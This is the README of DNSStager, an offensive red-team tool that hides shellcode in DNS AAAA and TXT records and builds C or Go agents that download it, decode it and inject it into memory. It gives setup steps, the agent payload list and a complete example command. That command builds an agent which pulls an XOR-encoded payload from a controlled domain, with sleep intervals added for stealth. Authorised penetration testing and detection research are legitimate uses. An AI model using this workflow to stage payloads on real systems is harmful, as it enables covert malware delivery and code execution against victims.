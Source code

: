 # What is DNSStager? ![](https://img.shields.io/badge/python-3-blue)

DNSStager is an open-source project based on Python used to hide and transfer your payload using DNS.

DNSStager will create a malicious DNS server that handles DNS requests to your domain and return your payload as a response to specific record requests such as `AAAA` or `TXT` records after splitting it into chunks and encoding the payload using different algorithms.

DNSStager can generate a custom agent written in `C` or `GoLang` that will resolve a sequence of domains, retrieve the payload, decode it and finally inject it into the memory based on any technique you want.

You can edit the code of DNSStager agent as you wish, and build it using your own custom execution techniques.

The main goal of using DNSStager is to help red teamers/pentesters to deliver their payloads in stealthy channel using DNS.


# How does it work?

Based on your DNS resolution option, DNSStager will split your payload into chunks and save each chunk of the payload as a response for a subdomain.

For example, if you choose `IPV6` as your option to retrieve the payload, the DNS response will be something like:

`cloud-srv-1.test.mydnsserver.live. 300 IN AAAA	5648:31d2:6548:8b52:6048:8b52:1848:8b52`

Where `5648:31d2:6548:8b52:6048:8b52:1848:8b52` is a part of your payload.

So, the agent will resolve some domains to retrieve the payload and then decode it and finally inject it into memory.

Currently, DNSStager only supports two records, `AAAA` and `TXT`. You can encode your payload using XOR for the `AAAA` record and by default it will be encoded as base64 if you choose `TXT` record.

# DNSStager key features:

DNSStager has some key features such as:

* Hide and Resolve your payload in `IPV6` records.
* Hide and Resolve your payload in `TXT` records.
* XOR encoder to encode your payload.
* Base64 encoder to encode your payload (only for TXT records).
* Pure agent written in `C` with the ability to customise it.
* Pure agent written in `GoLang` with the ability to customise it.
* The ability to use sleep between each DNS request.
* AND MUCH MORE TO COME!

# Requirements

You can install DNSStager python requirements via:

`pip3 install -r requirements.txt`

You need to install `GoLang` version `1.16.3` and to make sure to install the following `GoLang` packages:

* golang.org/x/sys
* github.com/miekg/dns

Also, make sure to install `ming-w64` via:

`apt install mingw-w64`

The script `setup.sh` should do that for you, but double check the requirements before you use it!

# Installation

To get the latest version of DNSStager, make sure to clone it from this repo using the following command:

`git clone https://github.com/mhaskar/DNSStager`

Then you need to install the requirements using the following command:

`pip3 install -r requirements.txt`

And make sure to install all the previously mentioned requirements too.

After doing all that, you are ready to execute DNSStager **as root** to get the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py



██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝    

    Beta Version                           Hide your payload in DNS

[-] Please specify a domain name using --domain
```
# Usage

To start using DNSStager, make sure to setup your DNS settings first, you need to make your domain points to the DNSStager instance as `NS record` in order to handle all the DNS requests to your domain.

You can read this full article about how to setup and use DNSStager.

And you can check the options using `-h` switch like the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py -h
usage: dnsstager.py [-h] [--domain DOMAIN] [--payloads] [--prefix PREFIX]
                    [--payload PAYLOAD] [--output OUTPUT]
                    [--shellcode_path SHELLCODE_PATH] [--xorkey XORKEY]
                    [--sleep SLEEP]

DNSStager main parser

optional arguments:
  -h, --help            show this help message and exit
  --domain DOMAIN       The domain you want to use as staging host
  --payloads            show all payloads
  --prefix PREFIX       Prefix to use as part of your subdomain schema
  --payload PAYLOAD     Payload to use, see --payloads for more details
  --output OUTPUT       Agent output path
  --shellcode_path SHELLCODE_PATH
                        Shellcode file path
  --xorkey XORKEY       XOR key to encode your payload with
  --sleep SLEEP         sleep for N seconds between each DNS request

```

* --domain: you can use this option to select the main domain you will use to handle the DNS requests for.

* -- prefix: The prefix you want to use for the subdomain schema
For example, if your main domain is `fakedns.live` you can specify the prefix as "cdn" for example, So the generate domains will be a a pattern as the following:

  * `cdn0.fakedns.live`
  * `cdn1.fakedns.live`
  * `cdnN.fakedns.live`

Where `N` is auto generated number represent the number of chunks of your payload.

* --payload: the DNSStager payload "agent" you want to generate based on the technique, programming language and architecture.

* --output: Output path to save DNSStager executable payload "agent".

* --shellcode_path: Your `raw`/`bin` shellcode path.

* --xorkey: XOR key to encode the payload with.

* --sleep: Used to sleep for N seconds between each DNS request.

## DNSStager Payloads

To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py --payloads

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

Then you can execute the agent `/tmp/a2.exe` (as set in using --output in the comand line) and that will download all of the chunks required, decode them and inject them into memory for you.

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
